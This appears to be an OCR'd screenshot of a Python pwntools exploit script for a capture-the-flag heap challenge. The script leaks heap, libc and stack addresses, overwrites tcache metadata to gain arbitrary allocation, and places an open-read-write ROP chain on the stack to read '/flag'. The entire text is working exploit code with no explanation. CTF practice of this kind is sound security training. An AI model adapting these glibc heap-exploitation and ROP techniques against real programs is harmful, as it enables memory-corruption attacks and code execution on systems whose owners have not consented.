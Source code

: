 ```
    heap_leak = u64(p.recv(6).ljust(8, b'\x00'))
    heap_base = (heap_leak & 0xfffffffff000) - 0x1000
    log.success('heap base: ' + hex(heap_base))
    edit(p64(heap_base + 0x10))
    new(0x78)
    new(0x78)
    edit(b'\x00' * 35 + b'\x07')
    free()
    dump()
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x60 
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.success('libc base:' + hex(libc_base))
    edit((b'\x01' * 2 + b'\x00' * 4 + b'\x01').ljust(64, b'\x00') + p64(libc_base + libc.sym['__environ']) + p64(libc_base + libc.sym['__free_hook']) + p64(heap_base + 0x10) * 5)
    new(0x10)
    dump()
    stack_leak = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    log.info('stack leak: ' + hex(stack_leak))
    new(0x20)
    edit(b'/flag\x00')
    new(0x78)
    edit((b'\x00' * 6 + b'\x01').ljust(64, b'\x00') + b'arttnba3' * 5 + p64(stack_leak - 0x120 + 0x70) + p64(stack_leak - 0x120))

    flag_addr = libc_base + libc.sym['__free_hook']
    pop_rdi_ret = libc_base + libc.search(asm("pop rdi ; ret")).__next__()
    pop_rsi_ret = libc_base + libc.search(asm("pop rsi ; ret")).__next__()
    pop_rdx_ret = libc_base + libc.search(asm("pop rdx ; ret")).__next__()
    pop_rdx_pop_rbx_ret = libc_base + libc.search(asm('pop rdx ; pop rbx ; ret')).__next__()
    pop_rax_ret = libc_base + libc.search(asm("pop rax ; ret")).__next__()
    syscall_ret = libc_base + libc.search(asm("syscall ; ret")).__next__()

    orw = b''
    orw += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(4) + p64(pop_rax_ret) + p64(2) + p64(syscall_ret)
    orw += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40)
    orw2 = p64(libc_base + libc.sym['read']) + p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['write'])

    new(0x68)
    edit(orw2)
    new(0x78)
    edit(orw)
    p.interactive()

if __name__ == '__main__':
    exp() 
```
